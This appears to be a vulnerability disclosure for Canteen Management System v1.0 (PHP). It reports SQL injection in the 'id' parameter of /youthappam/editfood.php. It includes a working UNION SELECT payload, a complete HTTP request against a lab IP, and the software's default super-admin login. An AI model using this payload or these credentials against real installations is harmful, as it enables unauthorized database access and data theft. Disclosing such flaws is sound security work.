 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: songyangqi

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/editfood.php

Vulnerability location: /youthappam/editfood.php, id

dbname =youthappam,length=10

[+] Payload: /youthappam/editfood.php?id=-1' union select 1,database(),3,4,5,6,7,8,9--+ // Leak place ---> id

```sql
GET /youthappam/editfood.php?id=-1' union select 1,database(),3,4,5,6,7,8,9--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195263976-4b20100e-2f84-49fa-bd84-43093a0ac287.png)
